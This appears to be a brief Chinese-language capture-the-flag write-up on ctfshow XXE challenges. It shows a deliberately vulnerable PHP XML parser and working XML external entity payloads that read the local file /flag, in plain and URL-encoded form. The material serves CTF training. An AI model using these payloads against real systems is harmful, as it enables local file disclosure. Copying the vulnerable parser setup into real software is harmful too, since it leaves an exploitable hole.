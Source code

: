 url解码：

```
解码后的 URL: xml_content=<xml><name>Mazda+rx7-FD</name></xml>
```

Payload:

```py
<!DOCTYPE test [
  <!ENTITY xxe SYSTEM "file:///flag">
]>
<xml><name>&xxe;</name></xml>

#编码
%3C%21DOCTYPE%20test%20%5B%0A%20%20%3C%21ENTITY%20xxe%20SYSTEM%20%22file%3A///flag%22%3E%0A%5D%3E%0A%3Cxml%3E%3Cname%3E%26xxe%3B%3C/name%3E%3C/xml%3E
```





> ctfshow-xxe

### web373

题目如下：

```php
<?php
error_reporting(0);
libxml_disable_entity_loader(false);
$xmlfile = file_get_contents('php://input');
if(isset($xmlfile)){
    $dom = new DOMDocument();
    $dom->loadXML($xmlfile, LIBXML_NOENT | LIBXML_DTDLOAD);
    $creds = simplexml_import_dom($dom);
    $ctfshow = $creds->ctfshow;
    echo $ctfshow;
}
highlight_file(__FILE__);  
```

Payload：

```xml-dtd
<?xml version="1.0" encoding="utf-8"?> 
<!DOCTYPE payload [
<!ELEMENT payload ANY>
<!ENTITY go SYSTEM "file:///flag">
]>
<creds>
    <ctfshow>&go;</ctfshow>
</creds>
```


